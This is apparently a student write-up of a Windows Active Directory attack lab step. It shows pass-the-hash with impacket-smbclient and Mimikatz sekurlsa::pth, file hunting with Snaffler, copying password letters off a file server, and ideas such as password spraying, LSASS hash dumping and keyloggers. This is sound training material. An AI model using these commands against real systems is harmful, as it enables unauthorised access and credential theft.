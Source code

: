 # Windows Attack Lab - Step 7 - Situational Awareness on FS1

## Author
* Knöpfel, Daniel
* Duijts, Michael

## Methodology

Instead of psexec it's possible to directly connect via smb.  
`impacket-smbclient -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101`
![impacket-smbclient-ls](Media/02-impacket-smbclient-ls.png)
This allows to manually search for interesting files on targets client.

To optimise manual research `snaffler` can automatically search for interesting files. To use `snaffler` with a NTLM hash we need to use Mimikatz to get a `cmd.exe` with user `aalfort`
```
c:\temp\tools\mimikatz\x64\mimikatz.exe
privilege::debug
sekurlsa::pth /user:aalfort /domain:winattacklab.local /ntlm:9859340265d3b3c1eb628ece70ebc238 /run:cmd.exe
```
![mimikatz-snaffler](Media/02-mimikatz-snaffler.png)
`c:\temp\tools\Snaffler\Snaffler.exe --outfile C:\temp\tools\Snaffler\snaffler_aalfort_fs1.log --comptarget fs1.winattacklab.local --stdout`

Now transfer interesting files via `impacket-smbclient` to attackers host.
```
get HR\employees\password_letter_template.docx
get HR\employees\password_letter_Adam_Amaker.docx
get HR\employees\password_letter_Elizabeth_Clifton.docx
get IT\utils\bulk_create_ad_users.ps1
```

## Answers
- What is the intended use of the PowerShell script?
    - To create multiple users (read in from a CSV file) in AD, which are forced to change their password upon first logon.
    - No password visible. The password will be entered in script directly before using it.
- What is the problem with the used password scheme and how would you fix this?
  - Password scheme is too simple ("Welc0me2020!") and can possible be cracked and even worse, it seems that they just update the year number but do not change the base structure or base word ("Welc0me").
- What could we do next with the gathered credentials?
  - Try out the the gathered credentials
    - probably won't work as passwords probably have changed
  - Password spraying: Maybe there is an account, that has not yet changed the password: "Welc0me2022!" (using current year)
- What other technique could we apply in order to get even more credentials from FS1?
  - Get NTML hashes from LSASS process
  - Try to use allfort (or helpdesk) to access other servers and get NTML hashes from there
  - Install tools such as keylogger etc. to observe user interaction. Maybe we might be able to gather more info/credentials over time
    - could be detected?!


## Queston: 
  When i run `whoami` after running `sekurlsa::pth /user:aalfort /domain:winattacklab.local /ntlm:9859340265d3b3c1eb628ece70ebc238 /run:cmd.exe` "hacker" returned but not allford. Why?